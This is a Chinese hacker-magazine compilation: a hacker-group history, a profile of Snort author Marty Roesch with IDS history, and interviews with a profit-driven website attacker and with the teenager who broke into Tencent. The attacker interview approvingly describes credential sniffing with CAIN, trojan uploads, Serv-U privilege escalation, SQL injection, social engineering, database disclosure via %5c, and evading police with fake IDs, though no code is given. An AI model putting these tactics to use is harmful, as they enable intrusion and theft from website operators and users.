在后来的日子里，他们越来越狠，拼命地对各种网站进行攻击，并且在被他们攻入的网站中安装黑客软件，再用来攻击别的网站（即我们所说的跳板攻击）。直到有一天，在他们例行聚会上，出现了一个陌生的“圈外人”，才引起了大家的不安。果然，此人在聚会结束后告诉 Genocide：他们的所作所为他了如指掌。

后来他们账号被冻结，小组也宣告解散。但是，Genocide 及一些成员转入地下，正式组建了“大屠杀2600”黑客组织。几个月后，Genocide 在当地一家 ISP 找到了一份工作，并很快进入核心领域，浏览新的站位组。在虚拟世界里，他发现有人在站盘中放软盘的程序和密钥，就灵机一动，把这些东西统统拷走。

慢慢地，“大屠杀2600”发展得越来越大，分站点也越来越多，加入的人也越来越多。时至今日，已经成了世界上最著名的黑客组织之一。


## 黑客人物面对面

在澳大利亚黄金海岸刚举行完的 AusCert 2006 亚太地区信息技术安全会议，一个网络界的安全人士发表了题为《无源网络的发现系统和资产核心的安全》以及如何使用 Snort 的演讲，引起了大家的共鸣，他就是 Marty Roesch。随着 Snort 的普及而被大众所知，Marty 这个名字大家都会读，而“Roesch”发音则是“fresh”少掉“f”字母的发音。

说起 Snort，我们就不得不提到入侵检测系统（Intrusion Detection System，IDS），有些新读者可能对这个东西不太了解。其实很早以来人们就认识到，应对网络用户的行为进行适当监控，以阻止恶意的和错误的操作，保障网络数据与运行的安全。入侵检测思想在二十多年前就已萌芽，随着 Internet 的蓬勃发展，近几年来 IDS 得到了较深入的研究和广泛的应用。下面我简单地介绍一下入侵检测的历史。

Marty Roesch 推出了 Snort 第一版，并免费发布其源代码。Snort 是基于网络的 IDS，采用误用检测技术。Snort 的早期版本功能较弱，经过众多研究与开发人员的大量修正和改进，功能逐渐完善，目前已成为应用最广泛的 IDS 之一。

2000年2月以后，全球许多著名网站，如 Yahoo、CNN、FBI、Amazon、eBay、Sina 等，都相继遭受 DDoS 攻击。DDoS 攻击引发了对 IDS 系统的新一轮研究热潮。


### 关于 Marty Roesch 和 Snort

Marty Roesch 是 Stanford Telecommunications Inc 的一位网络安全工程师，总部位于美国马里兰州的 Sourcefire 公司是一家为企业、政府提供网络安全解决方案的高科技公司，其客户有米华普道、安永国际会计公司、SAIC 等。Source 公司由目前世界上最为广泛应用的入侵检测系统 Snort 的开发者 Martin Roesch 创建，在行业内以能使客户快速、有效地处理安全威胁而闻名。现在 SourceFire 公司把强化后的 SNORT 与其精细的专有技术组成了新一代统一的安全监视系统；使用了各种手段、方法来主动识别威胁和入侵防卫。

### 入侵检测任重而道远

——记 Snort 作者 Marty Roesch

### IDS 的历史

1980年4月 James P. Anderson 发表著名的研究报告《Computer Security Threat Monitoring and Surveillance》，第一次正式阐述了入侵检测的概念。从1972年开始，James P. Anderson 就一直在关注和研究计算机系统和多用户网络的安全问题。在这篇为美国空军所作的研究报告中，他将计算机系统可能遭遇的风险和威胁分为外部渗透、内部渗透和不法行为三种，并提出了利用审计包含关键内容的跟踪数据来检测入侵活动的思想。他的研究成果为开发基于主机型 IDS 提供了最初的理论基础。

1988年11月，Morris 蠕虫感染了 Internet 上近万台计算机，造成 Internet 持续两天停机。事件发生之后，网络安全引起了军方、企业和学术界的高度重视，促使人们投入更多的资金和精力去研究与开发 IDS。

1989年，Haystack 项目的开发人员创建了一家商业公司，取名为 Haystack 实验室，将他们的新技术商品化。他们的 IDS 产品名为 Stalker，意思是入侵行为的“阻击者”。Stalker 采用模式匹配（Pattern Matching）检测技术，拥有强劲的数据搜索能力。Stalker 系列产品成为第一款在市场上销售成功的 IDS 工具，是基于主机 IDS 的一次进步。

1990年5月，加州大学戴维斯分校的 L.T. Heberlein 等人提出了基于网络的入侵检测概念，即将网络数据流作为审计数据的来源，通过主动监视网络信息流量来追踪可疑的行为。在 Heberlein 领导下开发的 NSM（Network Security Monitor）系统是第一个基于网络的 IDS，为入侵检测系统的发展翻开了新的一页。

入侵检测市场大约到1997年才真正开始启动并产生利润。在这年3月，安全产品市场的领头羊 ISS 公司正式推出 RealSecure 的商业版本“RealSecure 1.0 for Windows NT4.0”。RealSecure 将基于主机和基于网络的入侵检测技术结合起来，采用分布式安全体系结构；由多个检测引擎监控不同的网络并向中央管理控制台报告；引擎与控制台之间的通信可以采用 128-bit RSA 进行加密和认证；RealSecure 可以对某些品牌的防火墙、路由器进行重新配置，增强安全防护效果。RealSecure 以其高性能、简洁性和低价格迅速成为国际市场占有率最高的 IDS。

1998年5月，在 Internet 上发生了第一例分布式拒绝服务攻击（Distributed Denial of Service Attack，DDoS）；同一年12月，Marty Roesch 推出了 Snort 第一版。

Sourcefire 紧密整合的入侵管理系统（Intrusion Management System，IMS）包含了最新的检测、周边防御、系统管理和实时网络觉察。

从 Clarkson 大学获得计算机工程学士学位的 Marty Roesch 在入侵检测系统有丰富的经验，并开发了许多专业系统。他是 GTE Internetworking's Global Network Infrastructure x IDS 的主要软件开发师。他还是 Trinux Linux Security Toolkit 开发组的成员。

关于免费软件 Snort，Marty Roesch 对有些人把它定位为轻量级的入侵检测系统的说法不是很赞同，并认为这个定位是不妥当的。无论对小的家庭用户还是繁忙的公司网络，Snort 都有能力实时分析和记录 IP 数据包；其基于规则的检测引擎能够检测多种变种攻击，包括 CGI 扫描、缓冲区溢出攻击、SMB 探测等。还可以为确定网络中一些莫名其妙的服务都是做什么的提供帮助。Snort 能运行在众多的硬件平台和操作系统上。因为其可扩展的体系结构和开放源码的发布模式，Snort 成为入侵检测软件中非常流行的选择。经常有已经花费了数千美元购买入侵检测系统的管理员还使用 Snort 来填补网络中的一些缺口。

从本质上说，Snort 是网络数据包嗅探器，只要运行 Snort 时不加载规则，就可以把网络中的数据包显示出来；但是 Snort 的真正价值在于把数据包经过规则处理的过程。Snort 灵活和强大的语言能对网络中的所有数据包作充分的分析，决定如何处理任何特殊的数据包。Snort 可以选择的方式有忽略、记录或者警告管理员。Snort 有很多种记录或者警告的方法，例如 syslog、写入文件、写入 XML 格式文件、发送 WinPopup 消息等。当有了新的攻击手段时，只要简单加入新的规则就可以升级 Snort。

尽管 Snort 设计得很简洁，但它并不是一个能够即安即用的方案。要想把 Snort 用好，用户必须对 Snort 的原理非常熟悉。Snort 没有打算做所有的事情，没有打算和商业入侵检测软件全面竞争；但是在分析和定位恶意网络流量时，Snort 会做得更好。秘诀就是 Snort 能让使用者完全定制自己的规则；定制规则的前提是使用者有关于 Snort 规则的相关知识。

### 宁为鸡首

从小就立志从事网络安全的 Marty Roesch 认为，目前的工作正让他实现了小时候的志向。

## 黑客人物面对面

Marty Roesch 指出，因为他很清楚知道在一般的科技领域也人才济济，他在当中就是再努力、再突出，也只不过是颗细砂；但是信息安全领域则不同，当时还没有什么人投入。当时他心想如果他首先投入信息安全领域，未来的成功机会或许会大很多，就在一种“宁为鸡首，不为牛后”的心态下，毅然决定押宝信息安全产业，全力发挥其专长。

Marty Roesch 现在的工作档期除了满还是满，行程通常都排到一、两个星期以后，一天工作时间平均 12 到 13 个小时是很正常的。但是，即使面临工作全满的情况，他还是会抽空挤出时间，去教授一些信息安全相关的课程，因为他认为教育环境和信息安全产业有断层；他希望可以就目前他能力范围内，为这个产业造就更多人才。

### 眼中的 IDS

Martin Roesch 同时认为，入侵侦测就像是军备竞赛。只要有人有入侵的方法，我们就有对策。Roesch 已经开始升级 Snort 来对付像采用类似 K2 的软件技术的程序。他解释说，他们将采用多种检测方法来代替目前使用的单一信号检测方法。


在考虑部署 IDS 系统时，不能忽略运营维护以及由此带来的高额费用，尤其不能忽视对人员的培训。培训一个好的 IDS 管理专家，甚至比购买 IDS 产品更重要，因为，“三分技术、七分管理”永远有效。最终保护数字家园的安全依靠的是人的智慧。而相比之下，使用免费的 Snort，就能为你省下一笔巨额的支出费用。

最后，对普通用户而言，也必须要正确看待 IDS。我们必须了解，就像所有的安全产品一样，IDS 也是一个普通的安全工具，只能起到工具的作用，发现力所能及的攻击，并响应它。但它不能替代人的智慧、不能替代严密的安全管理、不能替代专家的分析和紧急响应。正确看待 IDS，不管是免费的，还是付费的，关键是要把入侵检测技术利用起来。只有用户用起来，碰到具体问题，真正体会其中的用处和不足，引发更为准确的用户需求，才能使得入侵检测产品发挥应有的作用！

### 热爱工作，乐于工作

勇于接受新知及挑战的 Marty，认为对工作感兴趣最重要，“没有人做过的事情，就不会做错”，由这句话充分展现他对工作的热忱及勇于尝试、接受不同挑战的个性。也因为这样的个性，以及提升自我在工作领域的专业知识，才使他一步一步走向了成功。

而被问到信息安全需要具备什么样的条件这个问题时，IT 出身的他以过来人身份建议 IT 人员，不管在接受新工作及新任务时，不要只做自己喜欢做的事，应该勇于去尝试不同的领域并广泛接触新事物；如此，不但可以扩展视野，也可以提升个人的实力。要有务实的心态以及实际落实执行的能力，还有是否有用心投入也是很重要的。

Marty Roesch 相当有自信地表示，通常客户与我们团队的关系都相当深厚，因为我们从不延宕，而且实际用心投入，只要经过一次的交手印象就会相当深刻，以后相处也会很深。而令他觉得最有成就的事，就是当别人不能解决的问题，你却可以迎刃而解。即使工作压力和挑战再强都很值得。

他认为信息安全人才需拥有五大能力：沟通、发现问题、解决问题、执行、持续学习的能力，拥有这五大能力后相信就足够在信息安全领域中游刃有余。

### 后记

无论如何，入侵侦测系统的开发商在修改他们产品的同时，也就为网上的入侵者提供了一个战场。入侵检测技术正在迅速地发展；IDS 已经成为安全保护产品的主流，然而，正所谓“道高一尺，魔高一丈”，我们更不能忽视漏洞会经常被发现，技术在不断更新。阻断入侵，保卫网络，入侵检测系统任重道远。


网络中存在着这么一些人，他们痴狂地迷恋计算机技术，以入侵他人的系统、网站为乐趣，一次次在突破世俗的限制中享受成功的快感。早期他们被称为黑客，因为他们并不做破坏，甚至还会主动帮管理员维护系统安全。后来，这些人里的一部分开始使用技术为自己牟利，逐渐因为损害到别人的直接利益而频频被媒体曝光，媒体将这类人也叫做“黑客”。由于利益的驱动，这类人越来越被“黑客”的定义完全曲解或毁灭，坚持原生态黑客精神的我们不得不屈服于强大的媒体炒作面前。

对于那些靠黑客技术黑站挂马盗号的人，大家心中是不是既讨厌又好奇：既讨厌他们尽干些损人利己的事，又好奇他们为什么能靠黑客技术获取那么多的利益？他们真的是传说中的黑客高手吗？他们的技术如何？他们是怎么走上这条道路的？今天就让我们与一位典型的职业“黑客”作一次亲密的接触，揭开他们神秘的面纱！

职业欠钱：sophia，你好，先介绍下自己吧！

sophia：大家好，我叫 sophia，今年 20 岁。

职业欠钱：你什么时候接触的计算机？什么时候开始学习黑客技术的呢？

sophia：我接触计算机比较晚，大概是在高二，也就是 2002 年的时候才有条件碰那东西。不过那时候只会玩个网络游戏“奇迹”，偶尔上网看到一些关于中美黑客大战的新闻，才激发了我学习网络的念头。大一的时候开始真正地学习黑客技术。

职业欠钱：那当时学习黑客技术主要用来做什么呢？这对你的学习有影响吗？

sophia：刚开始在网上混，就是黑人、黑站了。那时候我在这行一月能搞个两三千。在上学时候一月家里也就只给 400 多；能自己赚那么多钱心里也蛮高兴的，有这么点成功的感觉！不过那时候主要是跟台湾搞，认识个福建朋友，年纪和我一样大，也读大一，还经常电话联系。好几次跟我提要准备搞个工作室（说直接点就是专门做黑站、挂马、洗游戏币那种事的），想请我过去。不过我没答应，毕竟大家是在网上认识的，接触时间不是很长，就一直推托着。混着混着就到大二了，由于大一基本没有上过课，都是网吧度过的，大二考试很随意就挂了好几门。学校有规定：重修 4 门以上的要重读。我和我朋友（都是玩黑的）都没逃过重读这噩梦。也不好意思和家里说，就萌发了退学的念头。

职业欠钱：那退学了你们能做什么呢？家长同意吗？

sophia：那时候思想压力很大啊！呵呵！后来鼓起勇气跟家里提出了自己的想法，很奇怪哦，我和他的家长都同意了（也可能是看我们在学校的表现实在不像话的原因吧）！退学之后我们去了福建。刚开始是先去那边工作室考察环境，觉得挺满意的，所以回来后想了一下就正式过去了。

职业欠钱：当时是怎么过去的？那边的环境是什么样的，能让你们这么满意？

sophia：当时我们过去加考察的路费都是他们出的——来回机票！长这么大头一次坐飞机啊！——！我是在龙岩待的。那边做网游已经是差不多形成了一种气候。他们那儿的电脑城都可以看到卖“外挂”、“代理”、“木马”的广告。当然也不是全部搞网游，他们项目很多，像六合彩啊、足球竞猜啊、发短信忽悠人啊、搞网上色情呀……好多的！

听过最厉害的是龙岩那边的一个专搞韩国天堂的挂机室，据说电脑多达 1000 多台！是好几个人集资搞的。可惜没能亲眼去看，因为地方很保密。

职业欠钱：晕了！这也太夸张了吧？那你和你同学过去之后都负责做什么呢？

sophia：我和我同学过去算是技术人员了，主要是帮他们搞台湾站。台湾那边奇摩家族很火的，不少大陆的朋友开电脑第一件事就是上 QQ，而台湾人则开奇摩。好多工作室都是靠在奇摩发帖来放木马的。感觉很好玩的是台湾人很色，那些工作室的人发帖子主题都是 xx 明星和 xx 做 x！然后在帖子内容里放个 exe 文件链接，很多台湾人就点了下载运行，之后号就被盗了。不过他们即使被盗了号，也不留神，还往号里买装备，买完之后还去点那些帖子！狂晕！

奇摩虽然也能设置验证码，工作室都有专门的发帖机。具体一分钟能发多少没统计过，不过我是看见过一个工作室起码有三、四十台电脑——那电脑我都没见过，机箱就打印机那么大，十多个机箱用一个显示器，之后用一个电脑按键精灵，定时重启路由防止奇摩管理员封 IP。

职业欠钱：那你在那边住什么地方呢？环境怎么样？工作室规模也很大吗？有几个人？

sophia：我们住宿环境还可以了，房子是自己租的，装修得很好！三室的，比自己家爽哦！工作室总共五个人：技术三个，还有一个也是外地请过来的。我们就负责黑站和挂马，另外两个就是工作室 BOSS 和他朋友了（他朋友负责出币）。也算小有规模吧！呵呵！

职业欠钱：你刚才说过去是做技术员的，这未免让人好奇你当时的技术有多高了，还有，你是怎么样学习技术的呢？

sophia：其实去福建时，一直到现在我的技术都很一般的。网络知识都是大一时候学的。那时候算是真正在学技术，现在回想一下会觉得当时的付出也是值得的。

大一和我关系最好的有两个朋友，一个星期我们要出去包 6 天夜。因为我们上的那种私立大学，管得很严。为了能够出去包夜，我们晚上都是等楼管阿姨查完房再爬校墙出去的。他们两个包夜都是打游戏，我很少打，玩物丧志嘛！

记得那时候我可以盯着电脑屏幕不眨眼地看一整晚——看的是资料哦！刚开始学的是找 3389 肉鸡。那时候很傻，居然不知道有 3389 弱口令扫描器，只是拿个阿 D 随便填个 IP 段就开始狂扫开 3389 端口的机器。积累好多之后，一个一个地连接上去试空口令。功夫不负有心人，我的第一个肉鸡就是那么弄来的！那可是一个晚上的成果！回宿舍之后很开心，主动地让别人也看看自己的劳动成果——竟不知道怎么回事，短短几个小时的时间管理员居然给账号加了密码！第一次的成功，多少也让我丢了点人。

其实我当时和现在很多初入网络、正拿 X 档案看的读者一样，面对一堆堆难懂的计算机符号，真的很想去找个师傅！茫茫乎啊，真的很痛苦啊！那时我很客气地去问别人是否愿意带我，往往得到的都是别人讥笑的眼神。后来有人告诉我拜师不如上百度，慢慢我也理解了这句话的意思，放弃了找师傅的念头。学会用 Google 和 Baidu 是一件很了不起的事！不是吹嘘，现在黑站很多时候都是借助它们的。

职业欠钱：在福建那儿待了多久？

sophia：在福建待了三个月时间。后来发生了件事情（不方便说），在那边待着没多大意思，就和我同学转身去了南京。南京那边正好有个工作室叫我们过去，也是做同样的事。我们整天泡在网上，除了黑站还是黑站。经常有同学用 QQ 发来很吃惊的表情说：“你为什么天天在线啊？”

在南京那边待一个月就过年了，四个月时间扣除自己花费算下来赚了有 3 万左右。过年的时候我回家了，同学继续留在了南京。

回家后没有网络多少有些不习惯，匆匆忙忙过完年，只在家里待了 10 天左右就去了云南。那边是我在网上认识的一个亲弟弟叫我过去，他们一直在刷国内点卡。这次过去是帮他们挂肉鸡，比较简单，顺便说下云南美女很多，风景也不错，哈哈！

职业欠钱：你还全国各地到处跑啊！这次到云南又赚了多少呢？

sophia：老感觉做啥事都要靠机遇。不过像别人说的，机遇也是自己把握的。在云南那段时间，偶尔听别人说台湾卡（Hinet）也可以刷就去了解了下。

台湾 Hinet 性质和国内 ADSL 差不多，刷起来要比国内的快好多。一个肉鸡可以消费 5000 台币，折合人民币是 2000 多……这多少算是个机遇了，赶紧联系了以前福建工作室的朋友（他们认识台湾人多）负责出卡。在云南待到半个月之后带了一个人飞去福建继续刷。那段时间真的很忙，每天睡觉很少，往往都是大清早地被台湾人打电话过来叫醒，然后从早上 10 点多忙到晚上 12 点多，中间吃饭都是楼下送上来的。台湾卡只刷了一个多月时间，至于赚多少钱时候，留个悬念给大家。

第一次赚那么多钱，有点堕落了。而且台湾卡做了点对策来防止别人刷卡，开始卖手机认证了。于是我也开始偷懒了，跟福建那边负责人说了声就回家去了。在家挥霍了一个月，耐不住老妈的唠叨又去了西安自己干。租房子，拉宽带，很快地自己的工作室就搞定了。

职业欠钱：这么说你开始自立门户了？这段时间怎么过的呢？

sophia：在西安刚开始还是没把心思放赚钱上，什么也没做，倒是大把大把地花钱。因为做游戏的人多了，利润也不是那么很大了。于是我也开始筹划搞点别的什么了。偶尔一个机会发现个点卡站（在线卖各种游戏点、电话卡之类的网站）的进入点，于是我联想到点卡站的数据都是保存在数据库中的，那是不是可以直接从数据库里面把点卡拿出来？

当晚三点多我爬起来开始搞，数据库结构有些复杂，权限也很低，找了好长时间没有找到点卡存在哪。不过让我发现了他储存账户余额信息的数据表，update 了一下（修改自己账号的余额），刷新自己的账户页面发现居然成功了。试着去买了几张点卡也成功了！或许这又是一种机遇吧，那天早上六点多，赶忙把自己弟弟喊起来开始注册账号、加钱、买卡、销卡……

职业欠钱：人家卖点卡的网站被你把点卡给搬走了，岂不是相当于直接抢人家的钱？如果我是站长的话一定会去报警吧！你遇到过站长报警的情况吗？

sophia：当然有站长报警了。第一次遇到有人报警是在福建的时候，那时把一个服务器连着黑了人家三次，管理员忍无可忍了终于报案了。那时候真的害怕了好几天，不过后来还是不了了之。

后来我遇到一个点卡站有个在线充 QB 的系统，输入 QQ 号之后，管理员就会收到消息，然后就会帮你充过去。刚开始不了解它的工作原理，就输入了自己 QQ 号，反正是充嘛，那就多输点，随便充了 200 个 QB。结果管理员真给我充了，后来他们发现是自己系统出现故障了，便查到了我的 QQ 号码。巧的是，那个礼拜我运气比较好，一下子黑了三个点卡站，这时候另外两个站的站长也通过我留下的痕迹找到了我——当时我黑站没有用过任何代理！更巧的是三个站长居然同时报了警！当时吓出一身汗啊！

职业欠钱：当时你是怎么想的呢？害怕吗？警察是怎么处理的？

sophia：当时就想这下有点麻烦了，那不是仅仅黑他们服务器那么简单，而是明显犯人家拿人家钱呀！于是当天联系了外地一个朋友，第二天找房东把房退了，随便把行李收拾了下就匆匆忙忙离开了西安（幸好那时候租房都用假证）。在外地的一段时间，我让西安同学打听过，那边也没发生什么事！然后我放心了下，换个身份证继续了。第三个站长亲敲侧击地问了下，大概意思都是报案了，但网警不管——！

职业欠钱：看来自国内的网络安全不光是大家的安全意识薄弱那么简单，还跟网警的执法力度也有关系。那你平时黑站一般都是使用什么样的技术呢？

sophia：我觉得黑站能利用到的技术就那么几种了。最厉害的就是嗅探，其它时候基本靠 SQL 注入和社会工程学（以下简称“忽悠”）。

给大家介绍一些我的经验吧：一般点卡站都是有自己的独立服务器的。服务器上边全部是卡站；这些卡站的程序都是一样的，页面也很简单，对外开的端口除了 3389 和 80 就没了，当然，好多时候 3389 端口也是改了的。

记忆中印象最深只建过一个卡站，不过嗅探好使的就 FTP 和 MSSQL，人家要是不打开那两个端口，有 FTP 和 MSSQL 的密码也没多大用处。嗅探最难搞的就是装驱动，根据我的经验，Windows 2003 系统用 CAIN 自带的就 OK 了，Windows 2000 则用 WinPcap 2.0 成功几率大些。嗅探的工具方面一般我都用 CAIN，据说这个工具更稳定些。搞到密码之后，FTP 上传个 ASP 或者 PHP 木马上去，Serv-U 很随意就可以提权了。不用太高估管理员，很多独立服务器安全都做得很差的！

嗅探要是用不上就选择注入了，好多站都用了防注入系统，难度比较大！不过只要能找到一个注入点就可以说：“兄弟！你能少发一笔了！”

上面两个都不好使的时候，我还喜欢忽悠管理员。比如找到目标后，实在无计可施时，我通常会加客服的 QQ 号，然后自己复制个其它卡站的主页再挂个马放自己空间，以商务合作的方式发给客服。

这个世界白痴还是很多的，运气好的话不用多久客服就上线了！运气要再好点的话，你甚至可以记录到他登录网站后台的账号和密码。不然多少也能在他的电脑找到些点卡给自己用的。

社会工程学真的很重要，熟练地掌握了它，在你黑站过程中可以省去好多繁琐的步骤。这个技术我还是比较佩服我同学花刺的。有一个点卡站被我们洗完卡之后，有管理员加了，然后以为管理员做安全检测的名义又再赚一笔。这些让我和花刺配合得多少有些淋漓尽致！

还有一次在一个卡站的客服机器上种了鸽子（那个站还蛮大的），我们用鸽子看到那个客服在每天快下班时候负责从游戏公司接卡过来，在他接完卡之后，我们会迅速把那个文档下载到自己电脑。不过都是些冷门游戏的卡。经过再三考虑之后我们决定忽悠那个站，然后花刺就加了客服开始和他们聊，说“你的系统存在漏洞，我们已经成功侵入……”貌似拿了对方好多点卡等等。因为他们数据库里点卡很多，而且已经有客户反映，在他们那买的卡好些都已经让人用过了。因为他们不能确定什么卡让人用了，什么卡我们没有拿，再加上我跟花刺的精心配合，终于把那个站给忽悠了。

我们以做安检的名义给他配置服务器，对方给了我们一个登录的密码。然后我们拿这个密码去登录他的邮箱、ebay 账号、支付宝……具体的如何做出什么样的效果就要看自己发挥了！

当然，我记录过忽悠一个站的全过程，在硬盘上放着呢，有机会的话翻出来放黑 X 上给大家看。具体放哪期不确定！想看的话你可以每期都买咯，别怕花那几块钱！省包烟，少包个夜的钱就可以够的。哈哈……

总结一下，有目标的黑站思路很重要的哦！比如曾经用 %5c 爆出一个站的数据库是 .mdb 的。下载回来得到管理员账号密码登录了后台，却发现后台没任何可以利用的东西。于是给管理员留了个言：“您的系统存在一个漏洞。访问 http://www.xx.com/xx.mdb 就可以下载到您网站的数据库，请改后缀为 asp 以防止下载！”

第二天上去再 %5c 看了下，乖乖！对方真把后缀给改 asp 了！接下来怎么搞不用多说了吧？另外就是要有耐心，尤其是想靠黑吃饭的同胞们。我最牛的一次是用了一个星期的时间黑了一个足球站！要有这个耐心。之后是灵活地应用 Google，通过 Google 可以翻出一个站好多东西的。有时候站长因为懒，把以前用的旧版本的动网改个名扔硬盘而不删除，这些都是有机会让 Google 给搜索到的。那你不就可以捡个便宜了吗？有了耐心有了思路，剩下的就是发挥你所掌握的入侵技术了！相信自己，多少会给自己带来惊喜的！

职业欠钱：你有没有想过，你这样做，是对还是不对，或者值还是不值呢？

sophia：我不知道，或许我根本就不想去考虑这个问题，就像仙剑里讲的，没有什么值不值得，只有愿意不愿意。

职业欠钱：中国有句俗话，叫“常在河边走，哪有不湿鞋”，那你想过自己的未来吗？你总不至于要黑一辈子的站吧。

sophia：我还没想好，也许真的哪天我感觉厌倦这种生活了，我会洗手不干。我不知道大家对于我的故事是如何看的，或许我只是讲述了一个他们从未想到过的黑暗而又奇妙的生活。其实，国内有许多知名的高手也都在做着和我一样的事情，限于某些原因，我不好说出名字，否则的话，带给大家的只有震惊。

职业欠钱：感谢 sophia 与我们的亲密接触，也感谢 sophia 为读者描述了国内一个不为人知的“黑客”群落，也欢迎大家到 X 的论坛上来一起探讨，当然，sophia 可能会换一个别的 ID。最后再提一句，当呆呆看了本文之后，说了一句名言：“网络很危险，菜鸟们还是赶快回火星吧”！

### 树木自曝——树木与入侵腾讯 QQ 的故事

在上个月的杂志中，我们在“黑客线报”栏目曾经报道过腾讯服务器被入侵的新闻，今天在邪恶八进制论坛上看到树木又开始活跃在灌水版块，才知道他已经取保候审了。抱着荣幸的心态加上了他的 QQ，居然顺利通过了，于是就有了下面的采访。相信在看了本文后，大家可以充分地了解这位入侵腾讯的神秘少年到底是什么样的，他真的获得了腾讯服务器那么多的权限吗？他的过去又是怎样的？网警真的有那么厉害吗？

职业欠钱：树木你好，我是《黑客 X 档案》的小编，很高兴你能接受我的采访。首先介绍一下自己好吗？

树木：你好，我是树木，真名魏季天，今年 17 岁。曾用网名有“坏木”、“菜霸”、“传说中的处男”。

职业欠钱：前段时间大家都知道你被带到了深圳警方，是怎样获得取保候审的资格呢？现在在什么地方？做什么？

树木：是我一个朋友（北京华艺百创传媒的老总）帮忙的，现在我在北京朝阳区，也没什么事，主要就是玩。


职业欠钱：那我们聊聊关于前阵子腾讯的事可以吗？我想大家应该都很好奇。

树木：可以聊聊。

职业欠钱：我们很好奇当时你是如何入侵的，通过什么漏洞打开第一个突破点，后来又是如何扩大权限的？听说你还做了个全程录像，我很想看啊。

树木：这些我不方便回答，因为它涉及到案情关键问题。我取保候审的时候，他们说过，我不可以谈这些问题。但可以稍微透露一点，录像我是做了的，还做了两个，但是请谅解我不能把它们公布出来，否则会在中国互联网引起地震的。

职业欠钱：既然不方便回答技术细节，那你的博客里提到你并没有勒索腾讯 QQ 公司总裁马化腾，具体是什么情况？

树木：是的，我并没有勒索。当时我给他们打电话，是意识到自己掌握的权限太大了，我已经无法承受，所以就打电话通知他们有漏洞。开始他们不信，后来他们又给我打电话，让我把漏洞信息告诉他们。我就又和他们聊了会儿，把漏洞信息告诉了他们。随后他们也问了我是不是有什么条件之类的，我都回答“我不需要”。

职业欠钱：当时被抓的情况是怎样的？网警通过什么方式锁定你的？

树木：我在家被抓的。当时我正上网聊天，他们就来查网线，说网络有故障，然后问我是不是一直用这个 IP 上网，我说是。他们出去后没几分钟，警察就上来了。

职业欠钱：很多入侵者会用跳板隐藏真实位置，这次为什么没有？

树木：我没用跳板，原因是我认为腾讯不会这样对我，最起码不会报案。如果我意识到他们会报案，我就不会被抓。

职业欠钱：当警察出现时你心里是什么感觉？

树木：是天门网监大队来抓的我。他们来的时候我没什么感觉，就是大脑一片空白。到天门网监大队后，没 10 分钟，我就什么都承认了，他们没做过任何技术侦察。

职业欠钱：据说近况他们用了不少B的技术，那到了深圳是什么样的情况呢？我看到你在论坛上发帖称自己在看守所里蹲了一个月，体重反而还增加了，他们的伙食真的那么好吗？

朽木：被带到深圳后，登记完，就进看守所了。我在里面住了一个月，进去后，感觉整个人都很受打击。

职业欠钱：我相信换谁都会这样吧，情绪低落是很正常的现象。不过看你现在的精神面貌，似乎那一个月给你的改变很大。

朽木：是的，呵呵，以后我不会再去碰任何公司的系统漏洞。

职业欠钱：其实在一年前我就知道你的大名，那时你在邪恶八进制论坛上聊“文一天”，还发过入侵大连机房服务器的截图。这说明你很早就具备不错的技术了，不知道你是什么时候接触黑客技术的呢？是什么原因吸引你进入这个领域的？

朽木：大概2002年的时候，那时候玩了个游戏——大话西游，结果自己一件很看重的装备被盗了，所以很好奇别人是怎么盗的，于是就开始学了。刚开始也是瞎玩，后来觉得兴趣很大，就深入地学习。后来我还拿下了国内大话西游的服务器。

职业欠钱：那你是通过什么样的方式学习到这样强度的呢？

朽木：Google加自己的思考。我以前写过一个隐藏网站的文章，为了研究文章里出现的问题，我24小时没睡去搜索资料。学习就是时间加耐性。

职业欠钱：不错，这样的精神注定了你能成功。现在很多人就是缺少一种静下心来学习的精神，总想着一步登天，结果事与愿违，且急功近利。其实你除了这次入侵腾讯，之前还曾成功入侵过天涯社区的机房服务器和大话西游服务器；在你的博客里我还看到了动网论坛的权限截图、各省电信的最高权限，这些都是真的吗？

朽木：是真的，我家的4M带宽就是我进去电信后自己调的。

职业欠钱：说说这些技术细节可以吗？我们很好奇，你到底比一般人多掌握了些什么技术，使你可以入侵这么多关键系统。

朽木：好玩罢了。


职业欠钱：可以告诉我们，你入侵的那些大的服务器或者网站一般都是通过什么技术进去的吗？

朽木：很简单，我要弄掉它，我就会想办法去弄下来。就拿当初我在黑盟群里说，我要黑腾讯的数据库一样，没人相信我；没聊两天，结果是我拿下了。还拿1000的QQ号加入他们群里和他们聊天。

职业欠钱：现在我们知道的技术，除了渗透、嗅探和社会工程学，几乎就没什么了。你入侵那些关键点都是用这些技术吗？

朽木：盗号呢？呵呵！

职业欠钱：那些关键道还会有漏洞？就算他们发补丁，难道还会把漏洞暴露给你吗？

朽木：我用的当然不会是你们看到的那些，外面看不到的，国内也没人会有。

职业欠钱：那么说就是0day了？那你是从哪里得来这些利用工具的呢？你说了，国内也没几个人会，意思是这些工具都是来自国外了？

朽木：是的。入侵并不是一种独立行为，在入侵时会遇到各种你想不到的事情，思路最重要。就好像腾讯需要密码卡验证、动态密码验证，光一个验证就三层，验证一次，要访问3个数据库，你靠什么Sniff之类的工具有用么？我有几个朋友都在国外，我们内部经常会交流一些没有公布的工具与漏洞。

职业欠钱：国外的朋友？那他们都是说英文吗？你的英文一定也很牛了？

朽木：他们是中国人，在国外留学而已，其实国内这种小圈子很多的，只是技术层次不同罢了。

职业欠钱：那你是如何加入到这种圈子里，怎样认识这些牛人的呢？

朽木：都是好玩啊，想加入也可以到 http://www.selang.com 里找我的联系方式，如果我认为你够资格，你也可以加入。

职业欠钱：这是你的博客啊，上面有你的QQ和邮箱吧？你说的够资格，是要具备什么样的条件呢？

朽木：是的，我们最低的条件是拿过世界排名150内的站点主机权限。

职业欠钱：那还有别的什么条件吗？

朽木：我认为一切技术都是在实战中体验出来的，说再多也没用。

## 黑客人物面对面

职业欠钱：在国内，黑站高手有些不是很正道，通过这样的技术赚了不少钱，你身边有这样的人吗？

朽木：有的，这些人相信你们也认识，都是圈子里数得着的人物，我就不一一点名了；他们有的有700万，有的不下1000万。


职业欠钱：那你打算以后做什么呢？你会涉足那个圈子赚黑钱吗？

朽木：暂时不想，我还想多学习点技术。我13岁就辍学了，15岁的时候又去学习了半年，觉得自己跟不上，就再没去了。现在觉得一切还有一点高，就想再去念书。

职业欠钱：圈子里有一种说法是你要去北大？

朽木：谣言。这个问题，不下于100个人问过，不过它确实是谣言。

职业欠钱：师傅一说很玄嘛，其实以你现在的技术，被北大破格录取也不是没可能。你从入道到现在有过师傅吗？

